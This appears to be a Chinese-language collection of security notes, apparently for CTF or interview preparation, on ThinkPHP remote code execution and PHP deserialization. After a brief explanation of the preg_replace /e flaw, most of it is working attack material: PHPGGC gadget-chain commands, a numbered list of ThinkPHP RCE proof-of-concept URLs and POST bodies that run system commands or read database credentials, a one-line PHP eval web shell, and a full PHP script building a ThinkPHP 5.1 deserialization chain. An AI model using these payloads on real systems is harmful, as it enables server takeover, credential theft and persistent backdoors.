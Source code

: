 


**thinkphp rce漏洞**：比如5.0版本有个rce漏洞，该漏洞的漏洞关键点存在于thinkphp/library/think/Request.php文件中
在docker中复现了多种版本的rce漏洞。

**漏洞的原理有了解吗,攻击后的返回包的有分析过吗?**
THINKPHP RCE漏洞的原理：举例有一个RCE是这样的：Dispatcher.class.php中res参数中使用了preg_replace的/e危险参数，使得preg_replace第二个参数就会被当做php代码执行，导致存在一个代码执行漏洞，攻击者可以利用构造的恶意URL执行任意PHP代码。

^
phpMyadmin漏洞：
<https://dummykitty.github.io/php/2020/11/22/phpmyadmin-%E5%90%8E%E5%8F%B0-getshell-%E5%8F%8A%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF%E6%95%B4%E7%90%86.html#cve-2013-3238>


^
## **php框架反序列化利用工具PHPGGC**
>PHPGGC 是一个 unserialize（） 有效负载库，以及从命令行或编程方式生成它们的工具*。 当您在没有代码的网站上遇到反序列化时，或者只是在尝试构建漏洞时，此工具允许您生成有效负载，而无需经历查找小工具并组合它们的繁琐步骤。它可以被视为相当于[frohoff的ysoserial](https://github.com/frohoff/ysoserial)，但对于PHP。 目前，该工具支持小工具链，例如：CodeIgniter4，Doctrine，Drupal7，Guzzle，Laravel，Magento，Monolog，Phalcon，Podio，Slim，SwiftMailer，Symfony，Wordpress，Yii和ZendFramework，wordpress。

安装：
<https://www.cnblogs.com/xrzxyyds/p/the-introduction-and-installation-of-the-use-of-phpggc-s81yc.html>
```
克隆进入目录即可使用
https://github.com/ambionics/phpggc
```

使用：
```
./phpggc -l
列出全部

./phpggc -l Laravel

./phpggc -i Laravel/RCE2 
列出详情

./phpggc  Laravel/RCE2 system 'tac /fl*' |base64
生成序列化串

./phpggc ThinkPHP/RCE3 system() "cat /flag" --base64`
./phpggc Yii2/RCE1 exec 'cp /fla* test.txt' --URL
```



^
## **Thinkphp RCE　POC大全**
在 Vulhub 中，也可以找到了该漏洞的利用 POC

**Thinkphp 5.0.22 POC**
1. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username`
2. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password`
3. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
4. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5 POC**
5. `http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1`

**Thinkphp 5.0.21 POC**
6. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
7. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5.1.x POC**
8. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1`
9. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd`
10. `http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E`
11. `http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E`
12. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
13. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`
14. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
15. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`

**Thinkphp 未知版本 POC**
16. `?s=index/\think\module/action/param1/${@phpinfo()}`
17. `?s=index/\think\Module/Action/Param/${@phpinfo()}`
18. `?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}`

**Thinkphp 5.0.23 (完整版) debug模式 POC**
32. `(post)public/index.php 
32. (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx`

```
echo "<?php phpinfo();?>" > /var/www/public/test2.php

echo "<?php @eval(\$_POST['cmd']);?>" > /var/www/public/test.php
```




**Thinkphp 5.0.23 (完整版) POC**
33. `（post）public/index.php?s=captcha
33.  (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al`

**Thinkphp 5.0.10 (完整版) POC**
34. `(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system`

**Thinkphp 5.1.x 和 5.2.x 和 5.0.x POC**
35. `(post)public/index.php (data)c=exec&f=calc.exe&_method=filter`





^

## **Tinkphp 5.1反序列化**
入口
```
?&lin=cat /flag&data=序列化串
?lin=id  POST  code=序列化串
```
```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["lin"=>["calc.exe","calc"]];
        $this->data = ["lin"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system"; //PHP函数
    protected $config = [
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',  
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'lin']; //PHP函数的参数
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}


namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```